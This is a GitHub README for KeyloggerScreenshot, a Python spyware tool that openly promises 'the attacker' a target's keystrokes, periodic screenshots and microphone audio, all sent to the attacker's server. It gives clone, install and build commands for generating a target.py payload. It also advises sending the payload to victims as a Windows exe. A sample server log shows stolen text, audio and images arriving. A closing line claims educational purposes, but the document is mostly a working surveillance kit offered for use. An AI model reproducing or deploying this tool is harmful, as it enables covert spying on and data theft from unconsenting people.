

KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my pypi page:
https://pypi.org/project/KeyloggerScreenshot/

If you are a Linux user then write. I would suggest to run KeyloggerScreenshot on Kali linux. To change root:

`sudo -i`

In your terminal

To clone KeyloggerScreenshot simply type:

`git clone https://github.com/Facileee/KeyloggerScreenshot.git`

In your terminal

Continue by writing: 

`cd KeyloggerScreenshot`

Install all requirements:

`pip install -r requirements.txt`

If there is any problem with the server than check out the other method on:

https://pypi.org/project/KeyloggerScreenshot/

HOW DOES KeyloggerScreenshot WORK?
==================================

Write your IP-Address in KLS_start.py
`python KLS_start.py -aip 127.0.0.1`

To create a file: 
`python KLS_start.py -aip 127.0.0.1 -cf`

You can also specify the filename simply write the filename after -cf
`python KLS_start.py -aip 127.0.0.1 -cf test.py`

To create a server with the same ports as the target
`python KLS_start.py -aip 127.0.0.1 -cf -ds`

To see all the ports:
`python KLS_start.py -aip 127.0.0.1 -cf -ds -p`

The standard filename is target.py

You can also specify the seconds which is going to be run at the target

`python KLS_start.py -aip 127.0.0.1 -cf test.py -s 120`

The default seconds is 60

After running the code you can send the created filename

After the specified seconds your directory will look like this: 



Output
------
```python
"""
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer


Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...

"""
```

Additional
==========
* You can send "target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The client should be a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
